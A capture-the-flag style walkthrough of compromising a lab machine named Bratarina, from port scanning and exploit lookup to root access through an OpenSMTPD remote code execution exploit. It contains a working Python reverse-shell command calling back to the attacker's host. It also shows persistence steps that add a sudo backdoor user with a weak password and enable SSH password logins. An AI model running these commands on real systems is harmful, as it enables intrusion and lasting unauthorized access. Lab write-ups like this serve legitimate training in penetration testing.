



# Bratarina

### Contents
- [Set-up](#set-up)
- [Discovery](#discovery)
- [Foothold](#foothold)
- [Access](#access)
- [Persistence (Bonus)](#persistence-bonus)

## Set-up

1) Ran a `sudo apt-get update`

2) Added target `192.168.59.71` as `target` to `/etc/hosts`

## Discovery

3) Port scanned the target with `nmap -v -T4 -p- target`, got results:

```
PORT    STATE  SERVICE
22/tcp  open   ssh
25/tcp  open   smtp
53/tcp  closed domain
80/tcp  open   http
445/tcp open   microsoft-ds
```

4) Service fingerprinting on the 4 open ports (with `nmap -v -T4 -p 22,25,80,445 -A target`)

We find the additional info: 

<details>

<summary>`nmap` output</summary>

```
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:dd:2c:ea:2f:85:c5:89:bc:fc:e9:a3:38:f0:d7:50 (RSA)
|   256 e3:b7:65:c2:a7:8e:45:29:bb:62:ec:30:1a:eb:ed:6d (ECDSA)
|_  256 d5:5b:79:5b:ce:48:d8:57:46:db:59:4f:cd:45:5d:ef (ED25519)
25/tcp  open  smtp        OpenSMTPD
| smtp-commands: bratarina Hello target [192.168.49.59], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
80/tcp  open  http        nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title:         Page not found - FlaskBB        
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: bratarina
|   NetBIOS computer name: BRATARINA\x00
|   Domain name: \x00
|   FQDN: bratarina
|_  System time: 2024-02-26T11:49:15-05:00
|_clock-skew: mean: 1h40m00s, deviation: 2h53m14s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-02-26T16:49:12
|_  start_date: N/A
```

</details>

5) Checking the webserver on Firefox we see that the root path `/` gives us a 403.

At this point I'm thinking to try:

- Enumerate the Nginx webserver on 80/tcp with `gobuster`/`dirbuster`
- Look-up exploits (with `searchsploit`) for Nginx 1.14.0
- Look-up exploits (with `searchsploit`) with OpenSMTPD, we don't know what version the server is, but judging by the version of smtp-commands supported (2.0.0) that might be the version of the OpenSMTPD server too(?)
- Dig deeper into the SMB server, seems to have poor message-signing settings, we can get into this as a last resort

6) Enumeraing the webserver with `gobuster`

```
gobuster dir -u http://target/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

<details>

<summary>`gobuster` output</summary>

```
??$ gobugobuster dir -u http://target/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://target/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/static               (Status: 301) [Size: 194] [--> http://target/static/]
Progress: 220560 / 220561 (100.00%)
===============================================================                                           
Finished                                                                                                  
=============================================================== 
```

</details>

Gobuster found a path `/static` but that also gives me a 403 and nothing to work with, seems like a dead end. Let's move on to the next potential vector.

7) Searching for Nginx 1.14.0 exploits with `searchsploit`:

<details>

<summary>`searchsploit` output</summary>

```
??$ searchsploit nginx 
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Nginx (Debian Based Distros + Gentoo) - 'logrotate' Local Privilege Escalation    | linux/local/40768.sh
Nginx 0.6.36 - Directory Traversal                                                | multiple/remote/12804.txt
Nginx 0.6.38 - Heap Corruption                                                    | linux/local/14830.py
Nginx 0.6.x - Arbitrary Code Execution NullByte Injection                         | multiple/webapps/24967.txt
Nginx 0.7.0 < 0.7.61 / 0.6.0 < 0.6.38 / 0.5.0 < 0.5.37 / 0.4.0 < 0.4.14 - Denial  | linux/dos/9901.txt
Nginx 0.7.61 - WebDAV Directory Traversal                                         | multiple/remote/9829.txt
Nginx 0.7.64 - Terminal Escape Sequence in Logs Command Injection                 | multiple/remote/33490.txt
Nginx 0.7.65/0.8.39 (dev) - Source Disclosure / Download                          | windows/remote/13822.txt
Nginx 0.8.36 - Source Disclosure / Denial of Service                              | windows/remote/13818.txt
Nginx 1.1.17 - URI Processing SecURIty Bypass                                     | multiple/remote/38846.txt
Nginx 1.20.0 - Denial of Service (DOS)                                            | multiple/remote/50973.py
Nginx 1.3.9 < 1.4.0 - Chuncked Encoding Stack Buffer Overflow (Metasploit)        | linux/remote/25775.rb
Nginx 1.3.9 < 1.4.0 - Denial of Service (PoC)                                     | linux/dos/25499.py
Nginx 1.3.9/1.4.0 (x86) - Brute Force                                             | linux_x86/remote/26737.pl
Nginx 1.4.0 (Generic Linux x64) - Remote Overflow                                 | linux_x86-64/remote/32277.txt
PHP-FPM + Nginx - Remote Code Execution                                           | php/webapps/47553.md
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

</details>


All exploits are for versions lower than the webserver's (< 1.14.0) except for a DoS in 1.20.0 -- but that won't get us access. Let's move on to the next thing to try.

8) Searching for OpenSMTPD exploits with `searchsploit`

<details>

<summary>`searchsploit` output</summary>

```
??$ searchsploit opensmtpd
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
OpenSMTPD - MAIL FROM Remote Code Execution (Metasploit)                          | linux/remote/48038.rb
OpenSMTPD - OOB Read Local Privilege Escalation (Metasploit)                      | linux/local/48185.rb
OpenSMTPD 6.4.0 < 6.6.1 - Local Privilege Escalation + Remote Code Execution      | openbsd/remote/48051.pl
OpenSMTPD 6.6.1 - Remote Code Execution                                           | linux/remote/47984.py
OpenSMTPD 6.6.3 - Arbitrary File Read                                             | linux/remote/48139.c
OpenSMTPD < 6.6.3p1 - Local Privilege Escalation + Remote Code Execution          | openbsd/remote/48140.c
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

</details>

Here's some promising results! There are 3 RCE exploits we could look at. Two of them are for openbsd, and it looks like the machine is running Ubuntu so we'll set those two aside for now.

We'll focus our attention on `OpenSMTPD 6.6.1 - Remote Code Execution | linux/remote/47984.py` for now and move on to others if that fails. First thoughts are it likely won't work since the version of OpenSMTPD affected is 6.6.1, unclear if lower versions are also affected. We'll see...

## Foothold

9) Inspecting the exploit [source code](https://www.exploit-db.com/exploits/47984) header we find that it is advertised to work for `OpenSMTPD < 6.6.2`, so we might be in luck!

We run the exploit with no args to get usage:

```
--$ python /usr/share/exploitdb/exploits/linux/remote/47984.py
Usage /usr/share/exploitdb/exploits/linux/remote/47984.py <target ip> <target port> <command>
E.g. /usr/share/exploitdb/exploits/linux/remote/47984.py 127.0.0.1 25 'touch /tmp/x'
```

Looks like we can just give it the target IP, port, and an arbitrary command.

10) We'll try to get the remote machine (`192.168.59.71 - Bratarina`) to send us (`192.168.49.59 - Kali`) some data and set-up a local listener (`nc -lvnp 80` - using port 80 in case there are firewalls in place) to catch it:



Success! We can execute arbitrary code on the remote machine and get a response in our machine.

## Access

Now its time to set up a reverse shell.

11) Sending a command that runs in-line python to set up a shell that calls out to us should work:

```
python /usr/share/exploitdb/exploits/linux/remote/47984.py 192.168.59.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.59\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'
```

A copy of this payload can be found in the [python payloads reference in this repo](./../../../../../payloads/reverse-shells/python/README.md).



...and indeed, that not only gets us a shell in the box, it gets us a shell as `root`! There's our `proof.txt` file too, We win!

## Persistence (Bonus)

12) We'll make sure we can come back to the target via SSH by adding a new Linux user.

We add a new user `hackerman` with `sudo useradd -m hackerman`:

```
root@bratarina:~# sudo useradd -m hackerman
sudo useradd -m hackerman
```

We set a password `hackerman` for the new user `hackerman` with `echo hackerman:hackerman | sudo chpasswd`

```
root@bratarina:~# echo hackerman:hackerman | sudo chpasswd
echo hackerman:hackerman | sudo chpasswd
```

We add the user `hackerman` to the sudoers group with `sudo usermod -aG sudo hacker
`:

```
root@bratarina:~# sudo usermod -aG sudo hackerman
sudo usermod -aG sudo hackerman
```

We make sure that the SSH server allows password authentication by checking the `/etc/ssh/sshd_config`... in this case it did not:

```
root@bratarina:~# cat /etc/ssh/sshd_config | grep PasswordAuthentication
cat /etc/ssh/sshd_config | grep PasswordAuthentication
#PasswordAuthentication yes
# PasswordAuthentication.  Depending on your PAM configuration,
# PAM authentication, then enable this but set PasswordAuthentication
```


So we enable that by appending `PasswordAuthentication yes` to the config:

```
root@bratarina:~# echo PasswordAuthentication yes >> /etc/ssh/sshd_config
echo PasswordAuthentication yes >> /etc/ssh/sshd_config
```

We then restart the ssh server with `sudo systemctl restart ssh`:

```
root@bratarina:~# sudo systemctl restart ssh
sudo systemctl restart ssh
```

We check that the ssh server restarted succesfully (note the "active ... 8s ago"):

```
root@bratarina:~# sudo systemctl status ssh
sudo systemctl status ssh
WARNING: terminal is not fully functional
-  (press RETURN)
? ssh.service - OpenBSD Secure Shell server
   Loaded: loaded (/lib/systemd/system/ssh.service; enabled; vendor preset: enab
   Active: active (running) since Mon 2024-02-26 12:44:57 EST; 8s ago
  Process: 2097 ExecStartPre=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
 Main PID: 2109 (sshd)
    Tasks: 1 (limit: 2318)
   CGroup: /system.slice/ssh.service
           ??2109 /usr/sbin/sshd -D

Feb 26 12:44:56 bratarina systemd[1]: Stopped OpenBSD Secure Shell server.
Feb 26 12:44:56 bratarina systemd[1]: Starting OpenBSD Secure Shell server...
Feb 26 12:44:57 bratarina sshd[2109]: Server listening on 0.0.0.0 port 22.
Feb 26 12:44:57 bratarina systemd[1]: Started OpenBSD Secure Shell server.
lines 1-13/13 (END)^C
```

12) Now we can test our persistence mechanism by SSH-ing as user `hackerman` from our Kali machine:



Success!

